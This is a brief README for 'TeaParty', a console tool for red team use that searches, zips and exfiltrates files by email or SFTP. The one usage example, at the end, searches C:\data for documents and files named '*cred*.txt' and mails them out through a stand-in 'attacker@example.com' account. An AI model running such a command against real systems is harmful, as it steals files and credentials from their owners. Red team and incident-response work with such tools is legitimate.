 # TeaParty 🫖

TeaParty is a console-based tool for searching, compressing, and exfiltrating files via email or SFTP. Designed for red team operations, incident response, or automation.

## Features

- Search by file extension, name pattern, or both
- Recursive search with exclusion filters
- ZIP compression with SHA256 integrity hashes
- Email delivery (supports multiple recipients)
- SFTP fallback if email fails (optional)
- Logging with `--debug` and `--quiet` mode
- Interactive input or CLI arguments
- Hash-based cache to avoid duplicates

## Usage

```bash
teaparty.exe -s 3 -e .pdf,.docx -p *cred*.txt -d C:\data -m attacker@example.com:pass -to target@example.com -z 1
